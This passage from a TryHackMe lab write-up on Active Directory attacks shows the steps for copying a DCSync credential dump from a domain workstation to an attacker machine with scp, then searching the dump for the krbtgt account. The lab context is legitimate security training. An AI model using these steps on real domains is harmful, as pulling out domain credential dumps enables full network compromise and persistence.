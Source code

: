 		![task2-dcsync](./images/task2-dcsync.png)

	* Download dcsync log to attacker machine
	
		```
		scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/lorraine.gill_dcdump.txt .
		```

		![task2-download](./images/task2-download.png)

	* Open file log and search SAM Username : krbtgt
	
		```
		less lorraine.gill_dcdump.txt
